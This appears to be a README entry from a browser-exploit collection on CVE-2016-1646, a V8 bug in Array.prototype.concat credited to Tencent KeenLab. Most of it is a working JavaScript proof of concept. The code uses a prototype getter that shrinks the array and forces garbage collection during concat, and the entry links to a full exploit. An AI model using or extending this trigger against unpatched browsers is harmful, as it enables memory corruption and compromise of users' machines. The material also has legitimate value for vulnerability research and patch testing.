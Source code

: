 # CVE-2016-1646

- Date: Mar 2016
- Credit: Wen Xu, Tencent KeenLab

## PoC

```javascript
function gc()
{
    for(var i=0;i<((1024 * 1024)/0x10);i++)
    {
        var a= new String();
    }
}

array    = new Array(10)
array[0] = 1.1
array[2] = 2.1
array[3] = 3.1

var proto = {};
array.__proto__ = proto;

Object.defineProperty(
  proto, 1, {
    get() {
      array.length = 1;
      gc();
      return "value from proto";
    },
    set(new_value) { }
});

Array.prototype.concat.call(array);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=594574)
- [Exploit](https://github.com/4B5F5F4B/Exploits/blob/master/Chrome/CVE-2016-1646/exploit.html)
